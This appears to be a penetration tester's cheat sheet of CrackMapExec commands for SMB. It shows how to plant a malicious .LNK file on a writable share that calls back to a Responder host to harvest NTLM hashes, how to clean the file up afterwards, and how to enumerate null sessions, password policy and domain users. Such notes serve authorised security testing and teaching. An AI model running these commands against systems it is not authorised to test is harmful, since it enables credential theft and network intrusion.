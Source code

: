 ```yaml
---
description: Examples of CrackMapExec commands that I use throughout penetration tests.
---
```


# CrackMapExec Examples

### Harvest NTLMv2/v1 credentials if you have write-access to a share.

Enumerate the hosts shares

```bash
crackmapexec smb $ip -u $username -p $password --shares
```

Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=[ResponderIP]
```

After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=$responder_ip CLEANUP=True
```

### Null Session Enumeration

Enumerate null sessions:

```bash
cme smb $ip -u '' -p ''
```

Enumerate domain password policy:

```bash
cme smb $ip --pass-pol
```

Enumerate users (domain controller)

```bash
cme smb $ip --users
```

## References

{% embed url="https://mpgn.gitbook.io/crackmapexec/smb-protocol/enumeration/enumerate-null-sessions" %}

{% embed url="https://twitter.com/mpgn_x64/status/1453018750253424643" %}
